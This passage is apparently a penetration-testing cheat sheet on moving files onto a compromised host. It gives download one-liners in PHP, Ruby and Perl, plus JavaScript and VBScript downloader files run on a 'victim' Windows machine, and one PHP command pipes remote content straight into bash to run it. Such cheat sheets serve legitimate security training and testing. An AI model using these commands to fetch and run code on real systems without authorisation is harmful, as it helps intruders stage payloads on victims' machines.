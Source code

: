 ```console
zero@pio$ php -r 'const BUFFER = 1024; $fremote = 
fopen("<tartget url file>", "rb"); $flocal = fopen("<output file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

- Bash pipe 

```console
zero@pio$ php -r '$lines = @file("<target url file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby 

```console
zero@pio$ ruby -e 'require "net/http"; File.write("<output file>", Net::HTTP.get(URI.parse("<target url file>")))'
```

## Perl 

```console
zero@pio$ perl -e 'use LWP::Simple; getstore("<target url file>", "<output file>");'
```

## JavaScript 

We can simulate a `wget` command in Windows with the following file:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

And then:
```console
C:\victim> cscript.exe /nologo wget.js <target url file> <output file>
```

## VBScript

The same can be applied with VBScript (Microsoft Visual Basic Scripting Edition):
```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

